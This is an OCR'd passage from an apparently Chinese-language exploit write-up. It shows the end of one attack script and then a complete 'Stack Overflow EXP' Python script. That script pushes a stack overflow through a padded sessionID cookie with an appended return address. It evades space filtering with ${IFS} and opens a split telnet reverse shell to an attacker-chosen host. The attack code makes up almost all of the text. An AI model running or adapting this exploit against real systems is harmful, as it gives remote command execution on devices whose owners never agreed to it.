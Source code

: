```
header = {'Authorization':"Basic "+CMD}
 
urllib3.disable_warnings()
 
if url[-1:]=='/':
   url=url[:-1]
r = requests.get(url+"/download/dniapi/", headers=header,verify=False)
 
print "DONE!"

```

Stack Overflow EXP
==================

关于 system 执行命令，我并不想去另寻僻径去 ROP 或者是上传后门程序，我尝试了很多技巧，最终以这种较为简单且通用的方式弹 shell（输入与输出分离）。

```
import requests
import urllib3
import sys
 
 
if len(sys.argv)!=5:
    print "Parameter error. python exp.py url reverse_shell_host input_port output_port"
    exit(0)
 
 
url = sys.argv[1]
reverse_shell_host =  sys.argv[2]
input_port= sys.argv[3]
output_port= sys.argv[4]
 
 
if url[-1:]=='/':
   url=url[:-1]
 
 
cmd="telnet "+reverse_shell_host+" "+input_port+" | /bin/sh | telnet "+reverse_shell_host+" "+output_port
 
cmd2=cmd.replace(' ',"${IFS}")
 
 
payload = ("sessionID="+cmd2+";").ljust(268,"a")
payload += "\x1c\xb1\x01"
 
 
urllib3.disable_warnings()
 
url= url+"/help"
head= {'Cookie':payload}
r=requests.post(url,headers=head,verify=False)
 
print(r)
print(r.text)
print(r.content)

```
